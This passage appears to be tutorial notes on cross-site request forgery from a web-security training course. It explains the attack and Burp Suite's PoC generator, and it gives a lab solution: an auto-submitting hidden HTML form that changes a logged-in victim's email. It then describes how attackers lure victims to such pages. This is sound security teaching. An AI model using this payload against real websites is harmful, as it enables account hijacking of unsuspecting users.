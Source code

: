 
 -   The attacker's page will trigger an HTTP request to the vulnerable website.
 -   If the user is logged in to the vulnerable website, their browser will automatically include their session cookie in the request (assuming SameSite cookies are not being used).
 -   The vulnerable website will process the request in the normal way, treat it as having been made by the victim user, and change their email address.
## How to construct a CSRF attack

Manually creating the HTML needed for a CSRF exploit can be cumbersome, particularly where the desired request contains a large number of parameters, or there are other quirks in the request. The easiest way to construct a CSRF exploit is using the CSRF PoC generator that is built in to Burp Suite Professional:

-    Select a request anywhere in Burp Suite Professional that you want to test or exploit.
-    From the right-click context menu, select Engagement tools / Generate CSRF PoC.
-    Burp Suite will generate some HTML that will trigger the selected request (minus cookies, which will be added automatically by the victim's browser).
-    You can tweak various options in the CSRF PoC generator to fine-tune aspects of the attack. You might need to do this in some unusual situations to deal with quirky features of requests.
-    Copy the generated HTML into a web page, view it in a browser that is logged in to the vulnerable website, and test whether the intended request is issued successfully and the desired action occurs.

### Lab: CSRF vulnerability with no defenses
This lab's email change functionality is vulnerable to CSRF.

To solve the lab, craft some HTML that uses a CSRF attack to change the viewer's email address and upload it to your exploit server.

You can log in to your own account using the following credentials: wiener:peter 
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0abb003803e9c77580d717e7006f005f.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test&#64;gmail&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```
## How to deliver a CSRF exploit

The delivery mechanisms for cross-site request forgery attacks are essentially the same as for reflected XSS. Typically, the attacker will place the malicious HTML onto a website that they control, and then induce victims to visit that website. This might be done by feeding the user a link to the website, via an email or social media message. Or if the attack is placed into a popular website (for example, in a user comment), they might just wait for users to visit the website.
